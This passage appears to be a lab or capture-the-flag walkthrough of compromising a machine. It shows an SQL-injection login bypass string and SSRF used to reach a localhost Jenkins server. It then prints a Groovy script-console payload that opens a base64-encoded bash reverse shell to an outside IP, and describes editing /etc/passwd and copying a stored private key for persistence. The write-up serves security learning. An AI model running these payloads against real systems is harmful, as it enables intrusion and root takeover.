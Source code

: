```username'+OR+password=password--+-```
 There was a web hook function that allows me to perform http requests with limit possibility, but thanks god the developer didn't restrict where the request could be go :D "Evil laugh hehehe"
 <br>
 <p align="center">
    <img src="https://media.tumblr.com/1e1fcc8dc9fd6f7e99d7f00e1e62adb7/tumblr_inline_miwvvnj0XI1qz4rgp.gif">
 </p>
 

the following screenshots show I could preform SSRF with burp collaborator.
![detect SSRF](https://github.com/bassammaged/Random-machines/blob/main/images/detection.png)
![detect SSRF](https://github.com/bassammaged/Random-machines/blob/main/images/poc-1.png)
![detect SSRF](https://github.com/bassammaged/Random-machines/blob/main/images/poc-2.png)


9. There are many of scenario could be happened but why not give try to access jenkins service that run on 127.0.0.1:8080! Its good idea for you! for me too, Bro!
![Access restricted resource](https://github.com/bassammaged/Random-machines/blob/main/images/test.png) 

10. I succeed tp access with no credential to jenkins! after digging a bit about jenkins and its ability,<strong>abusing script console function</strong> it was a good choice to
get reverse connection and the following payload that allows me get reverse shell with root privlidge.
```
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
Note: by changing the base64 payload and entering my IP and port, I got the reverse shell :D Finally as a root. <br><br>
![Reverse Shell POC](https://github.com/bassammaged/Random-machines/blob/main/images/reverse-shell-poc.png) 
![Reverse Shell POC](https://github.com/bassammaged/Random-machines/blob/main/images/revers-shell-poc2.png) 

11. After print which shell I am using ``` echo $SHELL ``` it was ``` /bin/ash ```, restricted shell! Agaaaain


<p align="center">
  <img src="https://media1.tenor.com/images/5d6cd0c6b0a0ae3c193e766fb8f1ed1f/tenor.gif">
</p>
12. Let me ask myself one question, Pleeeeeeeease! Am I root? Yes I am. So what! let's override /etc/passwd. I had changed it from /bin/ash to /bin/sh Boom It works. but you have to get the new shell.
<br> 
But before that, could I get persistence access? Yup It was so easy, Copy the priavte key of the user that already stored with insecure way :) From Here, I would like to thank the infrastructure engineer who store the private keys with inproper way, Thank you so much, Dear <3
<br>

![persistence access](https://github.com/bassammaged/Random-machines/blob/main/images/private-key.png) 
![persistence access](https://github.com/bassammaged/Random-machines/blob/main/images/access-poc.png) 

<p align="center">
  <img src="https://media1.tenor.com/images/938cd8a1f4ccd25d56a0ed3c1f91e9bf/tenor.gif">
</p>
```